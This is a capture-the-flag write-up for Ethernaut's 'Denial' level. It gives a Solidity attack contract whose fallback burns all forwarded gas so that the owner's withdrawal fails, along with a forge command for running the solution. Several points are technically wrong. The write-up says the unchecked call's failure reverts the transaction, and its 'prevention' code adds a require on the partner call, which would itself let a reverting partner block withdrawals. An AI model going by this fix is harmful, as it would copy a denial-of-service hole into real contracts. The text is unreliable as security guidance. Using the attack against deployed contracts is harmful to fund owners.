

# Ethernaut Level 20: Denial

## Challenge Description

This level demonstrates a denial of service attack on a contract. The `Denial` contract is a simple wallet that drips funds over time. You can withdraw funds slowly by becoming a withdrawing partner.

**Objective**: Deny the owner from withdrawing funds when they call `withdraw()` (while the contract still has funds, and the transaction is of 1M gas or less).

## Contract Analysis

### Key Components

- **Owner**: `0xA9E` - the contract owner who can withdraw funds
- **Partner**: A withdrawal partner who receives 1% of funds during withdrawals
- **Withdraw Function**: Sends 1% to partner and 1% to owner

### Vulnerability

The critical vulnerability is in the `withdraw()` function:

```solidity
function withdraw() public {
    uint256 amountToSend = address(this).balance / 100;
    // perform a call without checking return
    // The recipient can revert, the owner will still get their share
    partner.call{value: amountToSend}("");
    payable(owner).transfer(amountToSend);
    // ...
}
```

**Issues:**

1. Uses `partner.call{value: amountToSend}("")` without checking return value
2. No gas limit specified for the call
3. If the partner call fails, the entire transaction reverts, preventing owner withdrawal

## Attack Strategy

The attack exploits the vulnerability by:

1. **Becoming the partner**: Set our malicious contract as the withdrawal partner
2. **Gas consumption**: Make the partner call consume all available gas
3. **Revert mechanism**: Use `assembly { invalid() }` to consume all gas and revert

## Solution Implementation

### Attack Contract

```solidity
contract Attack {
    Denial target;

    constructor(Denial _target) {
        target = _target;
    }

    function targetCall() public {
        target.setWithdrawPartner(address(this));
    }

    fallback() external payable {
        assembly {
            invalid()  // Consumes all gas and reverts
        }
    }
}
```

### How It Works

1. **Setup**: Deploy the attack contract and set it as the withdrawal partner
2. **Execution**: When `withdraw()` is called:
   - The contract tries to send funds to our attack contract
   - Our `fallback()` function is triggered
   - The `invalid()` opcode consumes all remaining gas and reverts
   - The entire `withdraw()` transaction fails
   - Owner cannot withdraw funds

## Key Learning Points

1. **Always check return values** from external calls
2. **Set gas limits** for external calls to prevent DoS attacks
3. **Use `transfer()` or `send()`** instead of low-level `call()` when possible
4. **Consider using the "checks-effects-interactions" pattern**

## Prevention

To prevent this attack, the contract should:

```solidity
function withdraw() public {
    uint256 amountToSend = address(this).balance / 100;

    // Check return value and limit gas
    (bool success,) = partner.call{value: amountToSend, gas: 2300}("");
    require(success, "Partner transfer failed");

    payable(owner).transfer(amountToSend);
    // ...
}
```

## Instance Details

- **Submit Transaction**: `0x26ade061e01a49d9242922c8ded2601c14113b00477cbd0bb5f39044054bf4de`
- **Instance Address**: `0x6B577112436209a90b80D539bE2F3114d001DcF8`
- **Level Address**: `0x4921B67b90ea167cb8F6c53a80bE055d7a407F86`

## Running the Solution

```bash
# Deploy and execute the attack
forge script script/Solve.s.sol --rpc-url <RPC_URL> --private-key <PRIVATE_KEY> --broadcast
```


